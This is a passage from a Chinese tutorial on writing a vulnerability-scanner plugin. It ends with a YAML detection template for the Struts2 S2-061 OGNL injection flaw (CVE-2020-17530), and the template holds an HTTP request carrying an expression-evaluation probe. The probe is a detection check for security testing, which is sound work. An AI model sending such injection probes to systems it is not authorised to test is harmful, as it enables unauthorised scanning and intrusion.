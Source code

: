 需要注意的是，如果同步到云端的话，需要设置严谨一点，相当于你的插件供所有人使用，不过也需要注意，上传是需要经过审核的，而不是随意上传，至此就全部完成插件的编写了。

![image-20241120124419837](assets/image-20241120124419837.png)

下面是插件源码，上面演示的源码其中有很多信息都没填写，比如CVE漏洞、漏洞描述、作者等等，下面是源码：

```yaml
id: CVE-2020-17530

info:
  name: Struts2 S2-061 远程命令执行漏洞
  author: yuto
  severity: high
  description: Apache Struts disclosed S2-061 Struts remote code execution vulnerability (CVE-2020-17530) on December 08, 2020, which may exist OGNL expression injection vulnerability in the case of using some tags, etc., resulting in remote code execution with great risk. S2-061 is a fixed bypass of the S2-059 vulnerability.
  reference:
  - https://nvd.nist.gov/vuln/detail/CVE-2020-17530
  metadata:
    max-request: 1
    shodan-query: ""
    verified: true
  yakit-info:
    sign: 8a939997a8d4b8ee907924f194f22789

http:
- raw:
  - |+
    @timeout: 30s
    GET /?id=%25%7b+%27test%27+%2b+(2100+%2b+20).toString()%7d HTTP/1.1
    Host: {{Hostname}}
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Cookie: JSESSIONID=node0usx34y50np9sult9bo1zt7xb0.node0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

```
